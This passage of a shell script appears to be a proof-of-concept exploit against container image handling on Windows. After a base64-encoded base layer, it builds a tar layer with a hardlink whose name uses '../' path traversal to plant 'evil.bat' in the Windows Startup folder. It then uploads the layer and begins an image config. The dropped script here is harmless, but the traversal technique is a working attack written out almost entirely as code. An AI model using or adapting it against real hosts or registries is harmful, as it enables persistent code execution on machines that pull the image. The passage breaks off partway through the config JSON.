```shell
wVhh/oHwufCeMBderS68P1j3cbgu/OBgQfRvxPlw20V/ZLRteJtet/BOUBgaN/z473evPXwAAAAA
ANwKGfmvPfso3xDI+PkvTdUU8l9FGDX/pZh6TRk//xUPy85/JaoZ+a+4Ou1DNNPC/s+95VPGz38p
UtD/5L8mj/xXeQX5r/nfPyL/BQAAAAAlQP4rPY78FwAAAABgFmXlv5zWidv1XuSWCBk//6VrKn//
sRCj5r9UU5PM8fNf8bDs/FeimpH/iqvTPkQzLcp/5d3yKTf4+1+yyt9/LgT5r/IK8l//7C+S/wIA
AACAEiD/lR5H/gsAAAAAMIuy8l+9tndqu85U81+yRv6rCKN+/69RW9aWx85/XQzL/v7fRDXj+3/j
6rQP0UyL8l95t3zKTfJfQf+T/5o88l/lFeS/Pv3sPvkvAAAAACgB8l/pceS/AAAAAACzKCv/9aLv
OXl+H9wN8l+yZJD/KsKo+S+zVjPU8fNf8bDs/FeimpH/iqvTPkQzLcp/5d3yKTf4/kcj6H/yX5NH
/qu8gvzXJz9+QP4LAAAAAEqA/Fd6HPkvAAAAAAAAAAAAAAAAAAAAAG+q/wA9MZkjAPAAAA==
EOF
}

write_layer() {
  write_base_layer > "${tmpdir}/demo.tar"

  python3 -c '
import sys
import time
import tarfile
import tempfile
import struct

startupfile = \
  "ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp/evil.bat"

with tempfile.NamedTemporaryFile() as script, \
     tarfile.open(sys.argv[1], "w", format=tarfile.PAX_FORMAT) as tar:
  # Generate new digest every time
  script.write("echo Hello World {}\r\npause\r\n".format(time.time()).encode("ascii"))
  script.flush()

  tar.add(script.name, arcname="Files/script.bat")

  # Hardlink for startup script
  info = tarfile.TarInfo("Files\\../../../../../../../../" + startupfile)
  info.type = tarfile.LNKTYPE
  info.linkname = "Files\\script.bat"
  tar.addfile(info)
' "${tmpdir}/evil.tar"

  cat < "${tmpdir}/demo.tar" > "$tmplayer"
  tar --concatenate --absolute-names -f "$tmplayer" "${tmpdir}/evil.tar"

  tar -Ptvf "$tmplayer"
}

write_layer

layer_digest=$(upload "$tmplayer")
layer_size=$(stat --format='%s' "$tmplayer")

cat >"${tmpdir}/config.json" <<EOF
{
  "architecture": "amd64",
  "name": "image",
  "tag": "10",
  "config": {
    "Hostname": "",
    "Domainname": "",
    "User": "",
    "AttachStdin": false,
    "AttachStdout": false,
    "AttachStderr": false,
    "Tty": false,
```